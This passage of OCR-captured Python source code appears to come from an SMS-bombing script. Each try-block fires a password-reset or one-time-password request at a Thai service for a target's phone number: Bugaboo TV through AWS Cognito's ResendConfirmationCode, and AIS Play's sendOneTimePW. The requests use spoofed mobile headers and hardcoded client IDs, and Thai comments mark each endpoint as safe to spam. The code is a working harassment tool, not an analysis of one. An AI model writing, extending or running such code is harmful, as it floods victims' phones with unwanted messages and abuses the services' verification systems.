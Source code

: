             print(auth10.status_code)

            print(auth10.json())

        except:

            print("Fail :(")

        try:

            # BUGABOOTV ( รัวได้ )

            auth11 = requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent":"Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target":"AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId": "6g47av6ddfcvi06v4l186c16d6","Username": f"+66{phone[1:]}"})

            print(auth11.status_code)

            print(auth11.json())

        except:

            print("Fail :(")

        try:

            # Ais play ( รัวได้ )

            session = Session

            ReqTOKEN = session.get(

                    "https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated",

                    headers={

                        "User-Agent": useragent

                    }).text

            auth12 = session.post(

                    "https://srfng.ais.co.th/api/v2/login/sendOneTimePW",

                    data=

                    f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",

                    headers={

                        "User-Agent":

                        useragent,

                        "Content-Type":

